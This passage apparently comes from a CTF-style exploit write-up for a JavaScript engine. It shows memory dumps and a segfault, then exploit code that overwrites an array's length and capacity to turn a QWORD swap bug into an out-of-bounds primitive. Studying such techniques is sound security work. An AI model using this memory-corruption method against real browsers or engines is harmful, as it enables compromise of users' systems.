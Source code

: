 ```js
  "elementsHeader": "<(js::ObjectElements*)0x35701c900038, flags=[FIXED], init=0, capacity=6, length=0>",
  // ...
}

/* target */
{
  "type": "object",
  "address": "(JSObject*)0x35701c900080", // <-- very close to index 0!
  // ...
  "elementsHeader": "<(js::ObjectElements*)0x35701c900098, flags=[FIXED], init=3, capacity=6, length=3>",
  // ...
  "elements": {
    "0": "17",
    "1": "18",
    "2": "19"
  }
}
fromVal: 1
toVal: 2
To:

{
  "type": "double",
  "value": "6.3659873734e-314",
  "private": "0x300000001"
}
From:

{
  "type": "double",
  "value": "2.9029139176366e-310",
  "private": "0x35701c9000a8"
}
Segmentation fault (core dumped)
```

From the segfault, and the garbage values being swapped at the end, it is quite clear that we have managed to overwrite some metadata. Now we need to translate this one-off arbitrary QWORD swap into something bigger, e.g. a proper OOB swap mechanism.

To do this, we can overwrite the length and capacity of the target elements array, which are conveniently stored right before the array itself (the swap offsets come from trial-and-error / cracking open in gdb):

```js
      // ...
      target[0] = itof(0x10000000100n);
      return 3;
    }
  });
  a.to = 4;
  a.swap();
  dumpValue(target);
}
exp();
```
